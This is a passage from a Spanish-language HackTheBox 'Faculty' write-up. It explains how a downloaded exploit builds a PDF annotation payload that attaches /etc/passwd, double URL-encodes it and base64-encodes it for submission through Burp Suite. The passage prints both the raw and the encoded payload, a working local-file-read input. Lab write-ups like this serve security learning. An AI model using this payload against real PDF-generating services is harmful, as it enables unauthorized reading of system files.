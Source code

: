 ![](/assets/images/HTB/Faculty-HackTheBox/searchsploit.webp)

Tenemos dos vulnerabilidades, en mi caso descargo el exploit en python y lo analizo antes de ejecutarlo.

![](/assets/images/HTB/Faculty-HackTheBox/exploit.webp)

Al analizar el exploit veo que lo que hace es generar una línea con el siguiente contenido y lo urlencodea y lo encodea de nuevo en base64.

```bash
# Genera un archivo con este contenido.
--------------------------------------
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />

# Lo urlencodea x2 y lo encodea de nuevo en base64
--------------------------------------------------
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

Por lo tanto si metemos esto dentro del Burpsuite en la petición capturada y la enviamos se nos debería generar un archivo pdf con el archivo passwd.

